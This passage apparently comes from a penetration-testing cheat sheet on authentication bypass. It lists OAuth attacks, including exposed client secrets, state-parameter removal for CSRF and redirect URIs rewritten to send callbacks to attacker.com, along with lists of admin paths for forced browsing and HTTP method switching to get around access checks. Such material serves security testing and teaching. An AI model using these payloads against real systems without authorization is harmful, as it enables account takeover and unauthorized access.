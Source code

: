 ### 9. OAuth/OIDC Bypass

#### Client ID/Secret Exposure

```
# Inspect client-side code for exposed OAuth credentials
var client_id = "abc123456789";
var client_secret = "def987654321"; // Should never be in client-side code
```

#### State Parameter Tampering

```
# Original OAuth authorization request
GET /authorize?client_id=CLIENT_ID&redirect_uri=CALLBACK_URL&state=STATE_TOKEN

# Attempt CSRF by removing or replacing state parameter
GET /authorize?client_id=CLIENT_ID&redirect_uri=CALLBACK_URL
```

#### Redirect URI Manipulation

```
# Original redirect URI
redirect_uri=https://example.com/callback

# Manipulated redirect URIs
redirect_uri=https://example.com.attacker.com/callback
redirect_uri=https://example.com%252F@attacker.com
redirect_uri=https://example.com/callback/../../../attacker-controlled-page
```

### 10. Forced Browsing / Direct Page Access

```
# Attempt to directly access protected pages
https://example.com/admin
https://example.com/dashboard
https://example.com/settings
https://example.com/users
https://example.com/config

# Try common protected files
https://example.com/admin.php
https://example.com/console
https://example.com/cp
https://example.com/portal
```

### 11. HTTP Method Manipulation

```
# If POST login is protected but GET isn't
POST /admin HTTP/1.1  # Blocked

GET /admin HTTP/1.1   # Might work
HEAD /admin HTTP/1.1  # Might work
PUT /admin HTTP/1.1   # Might work
OPTIONS /admin HTTP/1.1  # Might work
```
